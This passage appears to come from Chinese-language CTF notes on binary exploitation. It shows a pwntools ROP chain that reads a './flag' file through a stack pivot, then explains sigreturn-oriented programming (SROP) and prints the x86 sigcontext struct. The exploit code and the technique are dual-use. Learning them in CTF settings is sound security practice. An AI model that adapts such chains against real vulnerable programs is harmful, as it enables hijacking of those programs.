 ```python

pd=b'./flag\x00\x00'
pd+=p64(bss+0x100)+p64(pop_rsi)+p64(0)*2+p64(pop_rdi)+p64(bss)+p64(o)
pd+=p64(pop6)+p64(0)+p64(1)+p64(to_r)+p64(0x100)+p64(bss+0x100)+p64(4)+p64(mov3)
pd+=p64(0)*7
pd+=p64(pop_rdi)+p64(bss+0x100)+p64(w)
pd+=p64(r)

sla('Do you think so?', pd)
sla('\n',b'a'*0x50+p64(bss+8)+p64(leave))

ia()
```



### SROP

#### 原理

内核向某个进程发送 signal 时，会触发软中断，在用户栈上保存上下文后挂起，在signal handler 返回后，内核为这个进程执行sigreturn系统调用，该系统调用会将保存在用户栈上的上下文恢复，也就是pop各种寄存器

如果我们伪造栈上的进程上下文再直接调用sigreturn系统调用，就能通过伪造的进程上下文中的各种寄存器随意设置寄存器、跳转任意地址

具体保存上下文的格式如下，pwntools集成了工具可以快速布置栈结构，只需要判断偏移输入栈中即可

- x86

```
struct sigcontext
{
  unsigned short gs, __gsh;
  unsigned short fs, __fsh;
  unsigned short es, __esh;
  unsigned short ds, __dsh;
  unsigned long edi;
  unsigned long esi;
  unsigned long ebp;
  unsigned long esp;
  unsigned long ebx;
  unsigned long edx;
  unsigned long ecx;
  unsigned long eax;
  unsigned long trapno;
  unsigned long err;
  unsigned long eip;
  unsigned short cs, __csh;
  unsigned long eflags;
  unsigned long esp_at_signal;
  unsigned short ss, __ssh;
  struct _fpstate * fpstate;
  unsigned long oldmask;
  unsigned long cr2;
};
```
